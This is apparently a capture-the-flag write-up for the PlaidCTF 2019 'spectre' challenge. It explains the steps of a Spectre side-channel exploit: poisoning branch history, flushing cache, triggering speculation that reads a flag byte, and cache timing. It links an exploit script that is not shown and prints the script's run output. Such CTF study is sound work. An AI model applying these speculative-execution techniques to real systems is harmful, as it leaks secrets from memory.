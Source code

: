 * test area: the place where indexed with `(return value of builtin_bc) * PAGE_SIZE`
* A: making test area dirty
  * Honestly, I don't know the reason why making dirty bits makes exploit work, while accessing test area via `load` instruction is fail to trigger spectre.
  * Here are my hypotheses
    * We need to ensure that our test area is in L2 cache.
    * Not L1 because we need cache timing attack.
    * Not L3 because it takes too long to access during branch speculation.
    * After accessing test area via `load`, however, it remains in L1 cache. We can figure out this by timing attack.
    * But accessing via `store` works!
    * There is a cache replacement policy that the block having dirty bit is evicted first.
* B: poisoning branch history of per address
* C: flushing cache. Done by reverse order to prevent stride prediction
* D: poisoning global branch history
* E: let the flag be in L1 cache
  * `*(unsigned __int8 *)(the_vm + 0x1020)`

* F: trigger branch speculation that reading one byte of flag.
  * When exploit isn't working, I thought the cause of failure was too long epilogue of builtin routine and then we need to make other routine as short as possible.
  * So, calculating index by shift operation would be the fastest, I guessed.
* G: simple cache timing attack.

* Well, some parts of exploit are not necessary (B, D, E). But I wanna memorize all my approaches, which makes exploit longer. 

## Exploit 

[sol.py](<https://github.com/bincat99/pwn/blob/master/plaid-2019/spectre/sol.py>)



```bash
➜  spectre python sol.py
[+] Starting local process './spectre': pid 27308
[*] '/home/bincat/pwn/plaid-2019/spectre/spectre'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
rlength: 0xec4
length: 0x1000
0x0 774 
0x1 345 0x2 614 0x3 217 0x4 391 0x5 257 0x6 432 0x7 223 0x8 380 0x9 226 0xa 277 0xb 232 0xc 383 0xd 240 0xe 383 0xf 237 0x10 571 
0x11 203 0x12 243 0x13 211 0x14 389 0x15 237 0x16 380 0x17 228 0x18 386 0x19 209 0x1a 383 0x1b 220 0x1c 266 0x1d 225 0x1e 523 0x1f 323 0x20 600 
0x21 763 0x22 431 0x23 208 0x24 226 0x25 223 0x26 548 0x27 334 0x28 423 0x29 220 0x2a 214 0x2b 225 0x2c 220 0x2d 208 0x2e 429 0x2f 226 0x30 457 
0x31 231 0x32 426 0x33 226 0x34 391 0x35 220 0x36 257 0x37 240 0x38 617 0x39 214 0x3a 252 0x3b 226 0x3c 220 0x3d 220 0x3e 440 0x3f 231 0x40 386 
0x41 346 0x42 263 0x43 220 0x44 217 0x45 223 0x46 432 0x47 206 0x48 228 0x49 226 0x4a 226 0x4b 205 0x4c 380 0x4d 205 0x4e 577 0x4f 228 0x50 77 
0x51 297 0x52 385 0x53 226 0x54 432 0x55 232 0x56 380 0x57 231 0x58 263 0x59 760 0x5a 431 0x5b 225 0x5c 220 0x5d 225 0x5e 223 0x5f 231 0x60 508 
0x61 220 0x62 226 0x63 228 0x64 220 0x65 231 0x66 383 0x67 223 0x68 380 0x69 226 0x6a 429 0x6b 220 0x6c 434 0x6d 223 0x6e 511 0x6f 325 0x70 263 
0x71 228 0x72 386 0x73 229 0x74 343 0x75 334 0x76 428 0x77 208 0x78 389 0x79 214 0x7a 223 0x7b 220 0x7c 260 0x7d 228 0x7e 537 0x7f 337 0x80 432 
0x81 220 0x82 223 0x83 220 0x84 937 0x85 228 0x86 223 0x87 223 0x88 271 0x89 220 0x8a 225 0x8b 209 0x8c 637 0x8d 323 0x8e 389 0x8f 225 0x90 437 
0x91 223 0x92 223 0x93 217 0x94 429 0x95 223 0x96 386 0x97 220 0x98 251 0x99 228 0x9a 437 0x9b 220 0x9c 377 0x9d 220 0x9e 386 0x9f 226 0xa0 217 
```